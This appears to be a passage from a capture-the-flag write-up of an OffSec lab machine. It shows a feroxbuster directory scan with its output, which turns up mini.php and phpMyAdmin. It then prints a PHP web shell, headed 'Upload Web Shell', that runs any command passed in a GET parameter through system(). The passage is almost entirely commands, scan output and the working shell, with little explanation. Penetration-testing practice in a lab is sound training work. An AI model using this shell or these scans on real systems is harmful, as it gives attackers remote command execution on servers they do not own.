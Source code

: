 ```
http://192.168.187.132/phpmyadmin/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/45f0f5c2-ab32-4494-bb6b-0e080a5c9926)

```
> feroxbuster -u http://192.168.187.132 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --no-recursion --dont-extract-links --random-agent --filter-status 404 --extensions php
```
```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.187.132
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      375l      964w    10918c http://192.168.187.132/
301      GET        9l       28w      323c http://192.168.187.132/javascript => http://192.168.187.132/javascript/
200      GET      114l      263w     3828c http://192.168.187.132/mini.php
301      GET        9l       28w      323c http://192.168.187.132/phpmyadmin => http://192.168.187.132/phpmyadmin/
[####################] - 9m     81629/81629   0s      found:4       errors:9      
[####################] - 9m     81629/81629   152/s   http://192.168.187.132/     
```

```
http://192.168.187.132/mini.php
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2bf726fb-0cca-4591-a074-cd94dded4656)

Upload Web Shell
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
```
